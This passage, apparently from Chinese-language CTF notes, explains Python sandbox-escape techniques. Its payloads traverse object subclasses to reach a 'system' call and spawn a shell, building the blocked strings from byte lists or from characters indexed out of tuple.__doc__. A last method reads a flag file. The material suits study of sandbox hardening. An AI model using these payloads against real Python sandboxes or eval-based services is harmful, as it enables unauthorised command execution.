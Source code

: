 若bytes被删了，还是溯源到object在子类找bytes（假如第7个子类是bytes）

```py
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[().__class__.__base__.__subclasses__()[6]([115, 121, 115, 116, 101, 109]).decode()](().__class__.__base__.__subclasses__()[6]([115, 104]).decode())
```

法二：默认类（如`str`、`dict`、`list`等）均有相对应的文档。此时我们可以从`__doc__`里面去找，用索引的方式得到想要的字符，并拼接在一起，得到我们想要的字符串

如`().__doc__`为下：

>  Built-in immutable sequence.....

> `().__doc__.find('s')  # 19`

```py
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[().__doc__[19]+().__doc__[86]+().__doc__[19]+().__doc__[4]+().__doc__[17]+().__doc__[10]](().__doc__[19]+().__doc__[56])
```

法三：直接读flag，放弃RCE

> open('flag').read()

仿造上面的方法修改payload

